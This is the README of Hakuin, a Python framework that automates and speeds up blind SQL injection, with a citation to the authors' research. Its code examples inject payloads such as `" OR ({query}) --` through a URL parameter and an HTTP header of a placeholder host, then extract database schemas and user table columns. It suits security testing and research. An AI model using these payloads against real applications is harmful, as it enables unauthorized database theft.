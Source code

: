 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) inference optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract textual data in databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for DB content.

Hakuin been presented at academic and industrial conferences:
- [IEEE Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023

Also, make sure to read our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) or see the [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start infering data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Inferring SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Extractor, Requester

class StatusRequester(Requester):
    ...

exf = Extractor(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Inferring MySQL DBs
```python
from hakuin.dbms import MySQL
...
exf = Extractor(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start inferring DB schemas.

##### Example 1 - Inferring DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = exf.extract_schema(strategy='model')
```

##### Example 2 - Inferring DB Schemas with Metadata
```python
# metadata:
#   True:   Detect column settings (data type, nullable, primary key)
#   False:  Pass
schema = exf.extract_schema(strategy='model', metadata=True)
```

##### Example 3 - Inferring only Table/Column Names
```python
tables = exf.extract_table_names(strategy='model')
columns = exf.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Inferring Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = exfiltrate_text_data(table='users', column='address', strategy='dynamic'):
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is maintained to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```

